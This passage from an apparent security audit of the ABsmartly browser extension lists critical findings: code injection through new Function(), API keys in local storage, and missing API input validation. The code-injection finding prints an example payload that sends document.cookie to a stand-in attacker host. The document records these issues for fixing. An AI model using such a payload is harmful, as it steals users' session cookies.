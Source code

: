 
### 2. Code Injection via new Function()
**Severity**: CRITICAL
**Risk**: Arbitrary Code Execution
**Impact**: Complete compromise of extension and user data

**Vulnerable Files**:
- `public/inject-sdk-plugin.js:773`
- `src/content/sdk-bridge.ts:93`

**Attack Vector**:
```javascript
// Attacker creates JavaScript DOM change
{
  "type": "javascript",
  "value": "fetch('https://evil.com/steal?data=' + document.cookie)"
}
// Executes arbitrary code with full extension permissions
```

**Fix**: Remove JavaScript DOM change type entirely OR implement safe sandboxing

**Status**: ❌ Not fixed - HIGH PRIORITY

---

### 3. API Key Storage in Local Storage
**Severity**: CRITICAL
**Risk**: Credential Theft
**Impact**: Attacker can steal API keys and access ABsmartly account

**Vulnerable Files**:
- `background.ts:70, 77`

**Issue**: Chrome local storage is accessible to any script via XSS

**Fix**: Use Chrome's encrypted storage
```typescript
const storage = new Storage({
  area: "local",
  secretKeyring: true
});
```

**Status**: ❌ Not fixed

---

### 4. Missing Input Validation on API Requests
**Severity**: CRITICAL
**Risk**: Backend Exploitation
**Impact**: Malicious data could exploit ABsmartly API

**Vulnerable Files**:
- `background.ts:263-430`
